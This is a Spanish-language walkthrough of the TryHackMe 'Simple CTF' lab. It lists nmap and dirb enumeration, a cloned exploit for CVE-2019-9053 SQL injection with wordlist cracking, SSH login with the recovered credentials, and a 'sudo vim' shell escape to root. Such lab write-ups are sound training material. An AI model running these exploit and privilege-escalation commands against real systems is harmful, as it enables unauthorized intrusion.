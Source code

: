 ```yaml
---
tags:
  - Cybersecurity
  - Labs
  - TryHackMe
  - Easy
  - Linux
  - HTTP
  - FuzzingWeb
  - SQLI
  - SSH
  - PrivilegeEscalation
  - Sudo
---
```

- [[#Enumeración|Enumeración]]
	- [[#Enumeración#Ping|Ping]]
	- [[#Enumeración#Nmap|Nmap]]
	- [[#Enumeración#HTTP|HTTP]]
		- [[#HTTP#Fuzzing Web|Fuzzing Web]]
	- [[#Enumeración#Searchsploit|Searchsploit]]
- [[#Explotación|Explotación]]
	- [[#Explotación#SQL Injection (CVE-2019-9053)|SQL Injection (CVE-2019-9053)]]
	- [[#Explotación#SSH|SSH]]
	- [[#Explotación#Escalada de Privilegios|Escalada de Privilegios]]
		- [[#Escalada de Privilegios#Sudo|Sudo]]

---
# Resolviendo la máquina Simple CTF

>En esta publicación, comparto cómo resolví la máquina **Simple CTF** de [TryHackMe](https://tryhackme.com/room/easyctf).

---
## Enumeración
### Ping

`ping -c 1 10.10.136.186`

![[Pasted image 20250801082503.png]]

*TTL=63* -> **Linux**
### Nmap

`nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn  10.10.136.186 -oG allPorts`

![[Pasted image 20250801082555.png]]

`nmap -p21,80,2222 -sCV 10.10.136.186 -oN targeted`

![[Pasted image 20250801082629.png]]
### HTTP

`http://10.10.136.186/index.html`

![[Pasted image 20250801082705.png]]

`http://10.10.136.186/robots.txt`

![[Pasted image 20250801082800.png]]

Se identifica al usuario `mike` en el archivo `robots.txt`.
#### Fuzzing Web

`dirb http://10.10.136.186/`

![[Pasted image 20250801085825.png]]
![[Pasted image 20250801085848.png]]

`http://10.10.136.186/simple/`

![[Pasted image 20250801083022.png]]

![[Pasted image 20250801083044.png]]

`http://10.10.136.186/simple/admin/login.php`

![[Pasted image 20250801085946.png]]
### Searchsploit

El sitio utiliza **CMS Made Simple** versión *2.2.8*, un gestor de contenido conocido por ciertas vulnerabilidades previas.

`searchsploit CMS Made Simple 2.2.8`

![[Pasted image 20250801090108.png]]

`searchsploit -m 46635`

![[Pasted image 20250801090321.png]]

---
## Explotación
### SQL Injection (CVE-2019-9053)

En caso de que el exploit descargado no funcione correctamente, se puede utilizar la alternativa: [CVE-2019-9053](https://github.com/so1icitx/CVE-2019-9053).

`git clone https://github.com/so1icitx/CVE-2019-9053 `

`cd CVE-2019-9053`

`python3 exploit.py -u http://10.10.136.186/simple/ -c -w /usr/share/wordlists/rockyou.txt`

![[Pasted image 20250801090633.png]]

Se encuentra el usuario `mitch` y contraseña `secret`.
### SSH

Se accede al servicio **SSH** en el puerto 2222.

`ssh mitch@10.10.136.186 -p 2222`

![[Pasted image 20250801091722.png]]
### Escalada de Privilegios
#### Sudo

`sudo -l`

![[Pasted image 20250801092421.png]]

Se detecta el permiso: `/usr/bin/vim`, se busca en [GTFOBins](https://gtfobins.github.io/gtfobins/vim/#sudo).

![[Pasted image 20250801092618.png]]

`sudo vim -c ':!/bin/sh'`

![[Pasted image 20250801092652.png]]

---


